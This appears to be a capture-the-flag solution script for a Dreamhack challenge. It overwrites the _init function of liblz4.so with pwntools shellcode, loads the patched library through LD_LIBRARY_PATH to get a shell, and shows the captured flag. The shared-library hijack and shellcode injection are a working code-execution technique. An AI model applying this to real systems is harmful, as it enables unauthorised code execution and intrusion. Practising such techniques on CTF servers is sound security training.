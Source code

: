```python

# modify liblz4.so.1.7.1

f = open('./liblz4.so.1.7.1', 'rb')
lib = f.read()
f.close()

shellcode = asm(shellcraft.sh())
offset = 0x1cf8  # offset of _init()

modified_lib = lib[:offset]
modified_lib += shellcode
modified_lib += lib[offset + len(shellcode):]


# get shell

tmpdir = create_tmpdir()
write_file('liblz4.so.1', modified_lib)
set_env('LD_LIBRARY_PATH', tmpdir)
execute_cmd('w')


r.interactive()
```

```
$ python3 solve.py
[+] Opening connection to host1.dreamhack.games on port 15488: Done
[*] Switching to interactive mode
$ cat flag
DH{292befb7a6e85bacf55c4644f6f1859fbe6184f4be34f6f43cecef0bd31b4dd4}
```
